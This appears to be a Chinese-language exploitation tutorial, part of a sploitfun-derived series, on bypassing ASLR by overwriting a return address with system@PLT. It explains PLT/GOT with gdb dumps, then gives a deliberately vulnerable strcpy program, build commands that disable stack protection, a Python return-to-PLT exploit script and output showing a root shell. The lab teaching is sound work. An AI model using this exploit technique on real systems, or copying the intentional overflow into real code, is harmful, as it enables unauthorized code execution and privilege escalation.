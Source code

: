 ```yaml
---
layout: post
title: 通过return to plt绕过ASLR
excerpt: "sploitfun系列教程之2.3.1 return_to_plt"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是ASLR
Address space layout randomization (ASLR)是一种地址随机化的技术，随机化的空间包括
- 栈地址
- 堆地址
- 共享库地址

**没有运行程序的基地址**

在以前的文章中，libc中函数地址计算方法如下
```
libc function address = libc base address + function offset
```
其中
- 当地址随机化关闭，libc的基地址通常是`0xb7e22000`
- offset通过`readelf -s libc.so.6 | grep`来查看

现在我们把地址随机化开启
```
echo 2 > /proc/sys/kernel/randomize_va_space
```
现在libc基地址将会被随机化

#### 什么是return to plt
相比与return to libc ，这种技术是将function@PLT的地址覆盖到return address中(这个地址不是随机的，是程序运行前就知道的)

为了更好的了解Procedural Linkage Table (PLT)，首先让我介绍一下共享库

与静态库不同，共享库代码段在多个进程之间共享，而其数据段对于每个进程是唯一的。这有助于减少内存和磁盘空间。由于代码段在多个进程之间共享，所以应该只有read和execute权限，因此动态链接器不能重新定位代码段中存在的数据符号或函数地址（因为它没有写权限）。那么动态链接如何在运行时重新定位共享库符号而不修改其代码段?它使用PIC完成！

#### 什么是plc
Position Independent Code (PIC) 是为了解决这个问题而开发的 - 它确保共享库代码段在多个进程之间共享，尽管在加载时执行重定位。PIC通过一级间接寻址实现这一点-共享库代码段不包含绝对虚拟地址来代替全局符号和函数引用，而是指向数据段中的特定表。该表是全局符号和函数绝对虚拟地址的占位符。动态链接器作为重定位的一部分来填充此表。因此，只有重定位数据段被修改，代码段保持不变！

一个例子
```c
//eg.c
//$gcc -g -o eg eg.c
#include <stdio.h>

int main(int argc, char* argv[]) {
 printf("Hello %s\n", argv[1]);
 return 0;
}
```
编译
```shell
gcc -g -o eg eg.c -m32
```
下面的反汇编显示，我们不会直接调用'printf'，而是调用相应的PLT代码'printf@PLT'。
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x0804840d <+0>:	push   ebp
   0x0804840e <+1>:	mov    ebp,esp
   0x08048410 <+3>:	and    esp,0xfffffff0
   0x08048413 <+6>:	sub    esp,0x10
   0x08048416 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048419 <+12>:	add    eax,0x4
   0x0804841c <+15>:	mov    eax,DWORD PTR [eax]
   0x0804841e <+17>:	mov    DWORD PTR [esp+0x4],eax
   0x08048422 <+21>:	mov    DWORD PTR [esp],0x80484d4
   0x08048429 <+28>:	call   0x80482e0 <printf@plt>
   0x0804842e <+33>:	mov    eax,0x0
   0x08048433 <+38>:	leave  
   0x08048434 <+39>:	ret    
End of assembler dump.
```
```bash
gdb-peda$ disassemble 0x80482e0
Dump of assembler code for function printf@plt:
   0x080482e0 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x080482e6 <+6>:	push   0x0
   0x080482eb <+11>:	jmp    0x80482d0
End of assembler dump.
```shell
在第一次调用printf之前，GOT entry (0x804a00c)指向了第二行，最终在dynamic linker帮助下完成链接
```
gdb-peda$ x/wx 0x804a00c
0x804a00c:	0x080482e6
```
在printf方法调用之后，其相应的GOT条目包含printf函数地址(如下所示)
```shell
gdb-peda$ x/wx 0x804a00c
0x804a00c:	0xf7e505d0
gdb-peda$ disassemble 0xf7e505d0
Dump of assembler code for function printf:
   0xf7e505d0 <+0>:	push   ebx
   0xf7e505d1 <+1>:	sub    esp,0x18
   0xf7e505d4 <+4>:	call   0xf7f436c5 <__x86.get_pc_thunk.bx>
   0xf7e505d9 <+9>:	add    ebx,0x178a27
   0xf7e505df <+15>:	lea    eax,[esp+0x24]
   0xf7e505e3 <+19>:	mov    DWORD PTR [esp+0x8],eax
   0xf7e505e7 <+23>:	mov    eax,DWORD PTR [esp+0x20]
   0xf7e505eb <+27>:	mov    DWORD PTR [esp+0x4],eax
   0xf7e505ef <+31>:	mov    eax,DWORD PTR [ebx-0x74]
   0xf7e505f5 <+37>:	mov    eax,DWORD PTR [eax]
   0xf7e505f7 <+39>:	mov    DWORD PTR [esp],eax
   0xf7e505fa <+42>:	call   0xf7e46520 <vfprintf>
   0xf7e505ff <+47>:	add    esp,0x18
   0xf7e50602 <+50>:	pop    ebx
   0xf7e50603 <+51>:	ret    
End of assembler dump.
```
了解了这些之后，我们使用return to plt来绕过aslr

漏洞代码
```c
#include <stdio.h>
#include <string.h>

/* Eventhough shell() function isnt invoked directly, its needed here since 'system@PLT' and 'exit@PLT' stub code should be present in executable to successfully exploit it. */
void shell() {
 system("/bin/sh");
 exit(0);
}

int main(int argc, char* argv[]) {
 int i=0;
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 return 0;
}
```
编译
```c
echo 2 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -o vuln vuln.c -m32
chmod 777 vuln
```
使用`objdump -d vuln | less`查找`system@PLT`和`exit@PLT`，或者使用如下方法
```shell
gdb-peda$ disassemble shell
Dump of assembler code for function shell:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    DWORD PTR [esp],0x8048594
   0x080484aa <+13>:	call   0x8048360 <system@plt>
   0x080484af <+18>:	mov    DWORD PTR [esp],0x0
   0x080484b6 <+25>:	call   0x8048370 <exit@plt>
End of assembler dump.
```
通过这些plt的值，我们来绕过aslr
```python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0x8048360
exit = 0x8048370
system_arg = 0x8048599     #Obtained from  ```objdump -s vuln|less```

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# Junk + system + exit + system_arg
buf = "A" * 272
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```
最后的结果
```shell
python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA檯 
sh-4.2# id
uid=0(root) gid=0(root) 组=0(root)
```



